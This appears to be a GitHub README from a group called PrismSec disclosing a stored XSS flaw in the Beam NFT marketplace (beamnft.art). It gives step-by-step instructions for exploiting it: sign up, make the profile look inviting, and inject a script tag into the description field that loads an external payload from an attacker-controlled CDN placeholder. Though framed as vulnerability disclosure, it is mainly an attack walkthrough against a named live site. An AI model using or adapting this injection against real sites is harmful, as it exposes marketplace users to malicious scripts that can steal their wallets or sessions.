 <div align="center">
  <img title="" src="images/prismsec.png" alt="PrismSec logo" data-align="center" width="400">
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link abouve to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to [The Beam NFT Marketplace](https://beamnft.art/) and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  <img title="" src="images/description.png" alt="PrismSec logo" data-align="center">
  </br>
</div>
